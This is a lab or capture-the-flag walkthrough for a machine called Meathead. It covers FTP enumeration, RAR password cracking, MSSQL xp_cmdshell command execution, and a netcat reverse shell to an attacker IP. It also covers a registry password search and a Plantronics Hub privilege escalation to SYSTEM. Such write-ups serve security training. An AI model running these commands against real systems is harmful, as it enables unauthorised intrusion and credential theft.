# Meathead

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.75.70 -t full`



`nmapAutomator.sh -H 192.168.75.70 -t vulns`

### HTTP \(80\)



Tried:

* SQL Injection

### SMB \(139/445\)

Tried:

* Null sessions

### FTP \(1221\)

* Without using passive mode, hangs on `150 Opening ASCII mode data connection`



* Using the `-p` parameter to force passive mode: `ftp -p 192.168.75.70 1221`



The `MSSQL_BAK.rar` looks interesting. It is password protected.

Extract the RAR hash: `rar2john MSSQL_BAK.rar > crackme`

Crack the hash: `john --wordlist=/usr/share/wordlists/rockyou.txt crackme`



We find the password `letmeinplease`.

Unrar the file: `unrar e MSSQL_BAK.rar`


Inside the archive is a text file.



The credentials are `sa:EjectFrailtyThorn425`.

### MSSQL \(1435\)

Using the previously found credentials, login using `mssqlclient.py`.

`mssqlclient.py -p 1435 sa:EjectFrailtyThorn425@192.168.217.70`

## Exploitation

Once in, we can enable code execution using the `enable_xp_cmdshell` command.

Then, execute a command: `xp_cmdshell whoami /all`



Transfer `nc.exe` to a writable directory:

`xp_cmdshell copy \\192.168.49.217\ROPNOP\nc.exe c:\Users\Public\nc.exe`

Then, trigger a reverse shell \(try a few common ports, port 80 works in this case\):

`xp_cmdshell c:\Users\Public\nc.exe -e cmd.exe 192.168.49.217 80`

Unfortunately we don't have access to `local.txt` just yet.



Using `reg query HKLM /f pass /t REG_SZ /s`, we find an interesting password.



Using the credentials `jane:TwilightAirmailMuck234`, we can RDP in as Jane.



## Privilege Escalation

On Desktop we find a Platronics Hub app \(version 3.13.2\)



This version suffers from a local privilege escalation vulnerability: `https://www.exploit-db.com/exploits/47845`

Create a `MajorUpgrade.config` with the following contents:

```text
jane|advertise|C:\Windows\System32\cmd.exe
```

Upon saving this file, we get a SYSTEM shell.





